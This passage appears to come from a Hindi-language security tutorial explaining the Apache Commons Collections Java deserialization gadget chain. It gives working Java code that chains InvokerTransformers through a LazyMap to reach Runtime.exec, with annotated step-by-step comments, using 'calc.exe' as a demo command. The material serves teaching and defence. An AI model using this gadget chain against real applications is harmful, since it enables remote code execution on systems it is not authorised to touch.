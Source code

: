 ```java
String[] command = {"calc.exe"};
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class), //(1)
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
), //(2)
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
), //(3)
new InvokerTransformer("exec",
new Class[]{String.class},
command
) //(4)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);

//Execute gadgets
lazyMap.get("anything");
}
}
```
यदि आपको जावा डेसिरियलाइजेशन पेलोड्स के बारे में कुछ नहीं पता है, तो यह समझना मुश्किल हो सकता है कि यह कोड कैलकुलेटर को क्यों चलाएगा।

सबसे पहले, आपको यह जानने की आवश्यकता है कि **जावा में ट्रांसफार्मर** कुछ ऐसा है जो **एक क्लास को प्राप्त करता है** और **इसे एक अलग क्लास में बदलता है**।\
यह जानना भी दिलचस्प है कि यहाँ **एक्सीक्यूट** किया जा रहा **पेलोड** **समकक्ष** है:
```java
Runtime.getRuntime().exec(new String[]{"calc.exe"});
```
या **और सटीक रूप से**, अंत में क्या निष्पादित किया जाएगा:
```java
((Runtime) (Runtime.class.getMethod("getRuntime").invoke(null))).exec(new String[]{"calc.exe"});
```
### कैसे

तो, पहला payload उन "सरल" एक-लाइनर्स के बराबर कैसे प्रस्तुत किया गया है?

**पहले** तो, आप payload में देख सकते हैं कि एक **transform का एक श्रृंखला (array) बनाई गई है**:
```java
String[] command = {"calc.exe"};
final Transformer[] transformers = new Transformer[]{
//(1) - Get gadget Class (from Runtime class)
new ConstantTransformer(Runtime.class),

//(2) - Call from gadget Class (from Runtime class) the function "getMetod" to obtain "getRuntime"
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
),

//(3) - Call from (Runtime) Class.getMethod("getRuntime") to obtain a Runtime oject
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
),

//(4) - Use the Runtime object to call exec with arbitrary commands
new InvokerTransformer("exec",
new Class[]{String.class},
command
```